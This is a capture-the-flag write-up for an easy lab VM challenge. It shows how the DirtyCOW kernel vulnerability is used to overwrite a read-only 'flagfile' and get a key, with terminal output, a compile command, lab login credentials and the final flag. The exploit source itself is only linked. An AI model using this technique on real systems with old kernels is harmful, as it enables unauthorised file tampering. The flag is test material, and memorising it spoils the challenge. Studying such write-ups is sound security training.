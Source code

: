 
## Challenge Information

Link: https://www.dropbox.com/scl/fi/1v60vz7iz15tqj82v1av5/CVE-Complete.ova?rlkey=3kgz9b7iw7dusjx6pozv8nnyb&st=8h1vv6oh&dl=0

Difficulty: Easy

Category: Exploit Vulnerability

Author: Jake Bailey

Description:

```
This CTF requires players to alter a read-only file to obtain a key from an executable provided to the player on the challenge machine
```

Hints:
- Man, this kernel version is OLD
- I'm deathly afraid of farm animals

Login as "tester" user with "123456" as the password

## Solution

1.  Run the key_checker executable to see that some file content must be modified to obtain the key
```
tester@CVE:~$ ./key_checker
Incorrect file content. Boo
```
2. Look at the 'flagfile' file and note its contents 
3. Create a program that exploits the DirtyCOW vulnerability and use the program to overwrite the contents of 'flagfile', changing 'no' to 'yes'.
```
tester@CVE:~$ cat checkflag
no
tester@CVE:~$ ./dirtycow flagfile yes
mmap b779f000

procselfmem 3000000

madvise 0

tester@CVE:~$ cat flagfile
yestester@CVE:~$ ./key_checker
m00000000(You found the key!)
tester@CVE:~$
```

[Here is the exploit I used to solve](exploit.c)

compilation: gcc -pthread exploit.c -o exploit

Flag: m00000000(You found the key!)
